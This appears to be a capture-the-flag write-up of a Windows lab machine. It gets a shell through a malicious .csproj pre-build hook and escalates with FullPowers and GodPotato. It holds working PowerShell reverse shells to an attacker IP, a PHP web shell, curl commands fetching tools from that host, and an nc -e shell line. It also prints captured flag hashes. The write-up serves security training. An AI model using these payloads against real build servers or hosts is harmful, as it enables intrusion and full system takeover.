

# 1. Enumeration
- We will start enumerating for any open ports using nmap:

```
└─$ nmap -sC -sV -Pn -p- -v 10.10.11.234
PORT   STATE SERVICE REASON  VERSION                                                                                                      
80/tcp open  http    syn-ack Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.1.17)                                                      
|_http-title: Visual - Revolutionizing Visual Studio Builds                                                                               
| http-methods:                                                                                                                           
|_  Supported Methods: GET HEAD POST OPTIONS                                                                                              
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.1.17                                                                     
|_http-favicon: Unknown favicon MD5: 556F31ACD686989B1AFCF382C05846AA
```

# 2. User Own

- Website's functionalities:
  - Input: git URL to a .NET, C# repo
  - The target server will build the solution 
  - Output: .exe, .dll files
- Knowing that the server will build our project, we need to find a way to execute codes that are stored in the solution
- Luckily, C#, .NET support code execution at pre-build & post-build phase
- Here is our malicious Git repo: https://github.com/hoanghailongvn/visualpoc
- Content of `*.csproj` in our solution:

```
<Project Sdk="Microsoft.NET.Sdk">

  <PropertyGroup>
    <OutputType>Exe</OutputType>
    <TargetFramework>net6.0</TargetFramework>
    <ImplicitUsings>enable</ImplicitUsings>
    <Nullable>enable</Nullable>
  </PropertyGroup>

  <Target Name="PreBuild" BeforeTargets="PreBuildEvent">
    <Exec Command="powershell ./reverse_shell.ps1" />
  </Target>
  <Target Name="PostBuild" AfterTargets="PostBuildEvent">
    <Exec Command="echo after" />
  </Target>
  
</Project>
```

- Upon building the solution, the target server will run commands in the pre-build stage, thus creating a reverse
shell to our attacker machine.

- To recap, this is what we will do:
  - Setting up the solution: embedded the reverse shell and make a call to it in the pre-build stage
  - Deploy our git server with HTTP (the target machine can only communicate with machines in the same network)
  - Set up the nc listener
  - Submit repo URL to obtain the reverse shell

## 2.1 Setting up the solution

- Content of `reverse_shell.ps1`:

```
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.30',14242);$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
{;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);
$stream.Flush()};$client.Close()
```

## 2.2 Deploy git repo

- First, we do a `git init` to initialize a `.git` folder. Then, we need to serve it through HTTP
- Run the command `git --bare update-server-info` at folder `.git` anytime we have a new commit (or first time establish the server)
so that the client can clone the codes.
- Create a simple HTTP server: `python -m http.server 12345`

## 2.3 Open the netcat listener

```
└─$ nc -lnvp 14242                                                                                                                                                                                                                          
listening on [any] 14242 ...
```

## 2.4 Submit Git repo

- Submit URL: `http://10.10.14.30:12345/.git`

- Heading back to the attacker, a reverse shell has been established:

```
└─$ nc -lnvp 14242                                                                                                                                                                                                                          
listening on [any] 14242 ...                                                                                                                                                                                                                
connect to [10.10.14.30] from (UNKNOWN) [10.10.11.234] 50365                                                                                                                                                                                
                                                                                                                                                                                                                                            
PS C:\Windows\Temp\b3fe09892d88b712d399e3b7465a96> ls C:\Users                                                                                                                                                                              
                                                                                                                                                                                                                                            
                                                                                                                                                                                                                                            
    Directory: C:\Users                                                                                                                                                                                                                     
                                                                                                                                                                                                                                            
                                                                                                                                                                                                                                            
Mode                LastWriteTime         Length Name                                                                   
----                -------------         ------ ----                                                                   
d-----        9/12/2023   2:02 AM                Administrator                                                          
d-----        9/12/2023   2:27 AM                enox                                                                   
d-r---        6/10/2023  10:08 AM                Public

...

PS C:\Users\enox\Desktop> more user.txt
141594bed9a1bfe7f1a690e601edb826
```

# 3. Privilege Escalation

- The first step in escalating privileges is to check some basic info like system info, environment variables, etc.
for any exposure.

`systeminfo`

```
PS C:\Users> systeminfo

Host Name:                 VISUAL
OS Name:                   Microsoft Windows Server 2019 Standard
OS Version:                10.0.17763 N/A Build 17763
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00429-00521-62775-AA642
Original Install Date:     6/10/2023, 10:08:12 AM
System Boot Time:          10/6/2023, 12:41:23 AM
System Manufacturer:       VMware, Inc.
System Model:              VMware7,1
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
                           [02]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
BIOS Version:              VMware, Inc. VMW71.00V.16707776.B64.2008070230, 8/7/2020
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume2
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC-08:00) Pacific Time (US & Canada)
Total Physical Memory:     4,095 MB
Available Physical Memory: 3,216 MB
Virtual Memory: Max Size:  4,799 MB
Virtual Memory: Available: 4,039 MB
Virtual Memory: In Use:    760 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Ethernet0 2
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.11.234
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
```

`dir env:`

```
PS C:\Users\enox\Documents> dir env:

Name                           Value                                                                                   
----                           -----                                                                                   
ALLUSERSPROFILE                C:\ProgramData                                                                          
APPDATA                        C:\Users\enox\AppData\Roaming                                                           
ChocolateyInstall              C:\ProgramData\chocolatey                                                               
CommonProgramFiles             C:\Program Files (x86)\Common Files                                                     
CommonProgramFiles(x86)        C:\Program Files (x86)\Common Files                                                     
CommonProgramW6432             C:\Program Files\Common Files                                                           
COMPUTERNAME                   VISUAL                                                                                  
ComSpec                        C:\Windows\system32\cmd.exe                                                             
DriverData                     C:\Windows\System32\Drivers\DriverData                                                  
LOCALAPPDATA                   C:\Users\enox\AppData\Local                                                             
MSBuildLoadMicrosoftTargets... true                                                                                    
NUMBER_OF_PROCESSORS           2                                                                                       
OS                             Windows_NT                                                                              
Path                           C:\Windows\system32;C:\Windows;C:\Windows\System32\Wbem;C:\Windows\System32\WindowsPo...
PATHEXT                        .COM;.EXE;.BAT;.CMD;.VBS;.VBE;.JS;.JSE;.WSF;.WSH;.MSC;.CPL                              
PROCESSOR_ARCHITECTURE         x86                                                                                     
PROCESSOR_ARCHITEW6432         AMD64                                                                                   
PROCESSOR_IDENTIFIER           AMD64 Family 23 Model 49 Stepping 0, AuthenticAMD                                       
PROCESSOR_LEVEL                23                                                                                      
PROCESSOR_REVISION             3100                                                                                    
ProgramData                    C:\ProgramData                                                                          
ProgramFiles                   C:\Program Files (x86)                                                                  
ProgramFiles(x86)              C:\Program Files (x86)                                                                  
ProgramW6432                   C:\Program Files                                                                        
PROMPT                         $P$G                                                                                    
PSExecutionPolicyPreference    Bypass                                                                                  
PSModulePath                   C:\Users\enox\Documents\WindowsPowerShell\Modules;C:\Program Files\WindowsPowerShell\...
PUBLIC                         C:\Users\Public                                                                         
SystemDrive                    C:                                                                                      
SystemRoot                     C:\Windows                                                                              
TEMP                           C:\Users\enox\AppData\Local\Temp                                                        
TMP                            C:\Users\enox\AppData\Local\Temp                                                        
USERDOMAIN                     VISUAL                                                                                  
USERNAME                       enox                                                                                    
USERPROFILE                    C:\Users\enox                                                                           
windir                         C:\Windows
```

- Nothing useful :v
- Luckily, we have some tools to automate our process:
  - <a href="https://github.com/int0x33/nc.exe/">nc64.exe</a>
  - <a href="https://github.com/itm4n/FullPowers">FullPowers</a>
  - <a href="https://github.com/BeichenDream/GodPotato">GodPotato</a>

- The idea:
  - Gain `nt authority\local service` privilege
  - Expand our privilege using `FullPowers`
  - Escalate to root using `GodPotato`

## 3.1 Gain `nt authority\local service` privilege

- From the reverse shell we obtained earlier, run the following commands to download necessary tools:
```
curl http://10.10.14.30:12345/reverseshell-14243.ps1  -o reverseshell-14243.ps1
curl http://10.10.14.30:12345/windows-php-reverseshell.php  -o windows-php-reverseshell.php
```

- `C:\xampp\htdocs\sea\reverseshell-14243.ps1`:

```
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.30',14243);
$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;
$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
$sendback = (iex $data 2>&1 | Out-String );
$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

- `C:\xampp\htdocs\sea\windows-php-reverseshell.php`:

```
<?php

$output = shell_exec('powershell -File C:\xampp\htdocs\sea\reverseshell-14243.ps1');
echo $output // True

?>
```

- Now, open netcat at port 14243 in another terminal and send a get request `GET /sea/windows-php-reverseshell.php`
  (using BurpSuite or whatever you want)

- We have received the connection as well as the privilege we acquire:


## 3.2 Get `SeImpersonate` to expand our privilege

- From our netcat listener port 14243, run the following commands:

```
curl http://10.10.14.30:12345/FullPowers.exe  -o FullPowers.exe
curl http://10.10.14.30:12345/nc64.exe -o nc64.exe
```

- Then execute `FullPowers`:

```
.\FullPowers.exe -c ".\nc64.exe -e powershell 10.10.14.30 14244"
```

- Open netcat port 14244 and check our privilege :v



## 3.3 System Own

- From our 14244 netcat listener:

```
curl http://10.10.14.30:12345/GodPotato-NET4.exe -o GodPotato-NET4.exe
```

- Then run `GodPotato`:

```
.\GodPotato-NET4.exe -cmd 'cmd /c more C:\Users\Administrator\Desktop\root.txt'
```

- Boom:

